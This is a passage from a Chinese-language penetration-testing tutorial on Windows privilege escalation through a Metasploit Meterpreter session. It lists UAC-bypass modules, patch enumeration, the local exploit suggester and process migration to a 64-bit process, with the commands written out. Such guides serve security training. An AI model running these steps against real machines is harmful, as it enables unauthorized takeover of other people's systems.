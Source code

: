### GetSystem

*   直接运行`getsystem`

### BypassUAC

*   相关脚本
    *   `use exploit/windows/local/bypassuac`
    *   `use exploit/windows/local/bypassuac_injection`
    *   `use windows/local/bypassuac_vbs`
    *   `use windows/local/ask`

```
meterpreter> background  # 后台session 
msf> use exploit/windows/local/bypassuac
msf> set SESSION <session_id>  
# 后台session时会返回session_id,如不清楚可以使用命令sessions -l
msf> run
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210112154853-9e0cd408-54aa-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210112154853-9e0cd408-54aa-1.jpg)

### 内核提权

*   这里查询补丁跟前面`systeminfo`一样，配合[提权辅助平台 - 漏洞编号](https://i.hacking8.com/tiquan/)查询可利用漏洞编号

```
# 查询补丁
meterpreter> run post/windows/gather/enum_patches 
[+] KB2999226 installed on 11/25/2020
[+] KB976902 installed on 11/21/2010
```

*   也可以使用`local_exploit_suggester`查询哪些 Exp 可以利用。

```
# 查询Exp
msf> use post/multi/recon/local_exploit_suggester 
msf> set LHOST <攻击机IP>
msf> set SESSION <session_id>
msf> run
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210112154855-9f2173da-54aa-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210112154855-9f2173da-54aa-1.jpg)

*   这里将上一步查询到的 Exp 打了一遍发现都没有成功，回头一看发现**原来是系统位数的原因**。这里的`Meterpreter`运行在 32 位，而系统位数为 64 位。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210112154855-9f591b00-54aa-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210112154855-9f591b00-54aa-1.jpg)

*   因此需要做进程迁移，将`Meterpreter`迁移到一个 64 位的进程。

```
meterpreter> sysinfo         # 查看位数
meterpreter> ps              # 查看进程
meterpreter > migrate <PID>  # 进程迁移
```


[01]: KB2999226
[02]: KB976902